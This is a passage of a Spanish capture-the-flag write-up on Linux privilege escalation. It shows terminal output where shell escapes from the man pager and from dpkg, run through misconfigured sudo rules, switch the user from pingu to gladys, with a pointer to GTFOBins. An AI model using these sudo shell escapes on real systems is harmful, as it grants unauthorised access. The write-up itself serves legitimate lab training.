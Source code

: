 ```
       man -l [man options] file ...
       man -w|-W [man options] page ...

DESCRIPTION
       man  is  the system's manual pager.  Each page argument giv
en to man is
       normally the name of a program, utility or function.  The  manual 
 page
       associated with each of these arguments is then found and displayed.  A
       section,  if  provided, will direct man to look only in tha
!/bin/sh
$ whoami
pingu
```
Ya estamos como el usuario **pingu**, hacemos lo mismo para ver si podemos seguir escalando privilegios por esta via de sudoers.
```
$ sudo -l
Matching Defaults entries for pingu on d99fe84a5179:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on d99fe84a5179:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
$
```
Vemos que podemos utizar estos dos binario para escalar a **gladys**, y en este caso utilizaremos **dpkg** que si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/) vemos como lanzar una shell en este caso como **gladys**.
```
sudo dpkg -l
!/bin/sh
```
```
pingu@d99fe84a5179:/$ sudo -u gladys /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                                 Archit
ecture Description
+++-=============================-=======================================-======
======-=========================================================================
=======
ii  adduser                       3.137ubuntu1                            all   
       add and remove users and groups
ii  apache2                       2.4.58-1ubuntu8                         amd64 
       Apache HTTP Server
ii  apache2-bin                   2.4.58-1ubuntu8                         amd64 
       Apache HTTP Server (modules and other binary files)
ii  apache2-data                  2.4.58-1ubuntu8                         all   
       Apache HTTP Server (common files)
ii  apache2-utils                 2.4.58-1ubuntu8                         amd64 
       Apache HTTP Server (utility programs for web servers)
ii  apt                           2.7.14build2                            amd64 
       commandline package manager
ii  base-files                    13ubuntu10                              amd64 
       Debian base system miscellaneous files
ii  base-passwd                   3.6.3build1                             amd64 
!bin/sh
$ whoami
gladys
```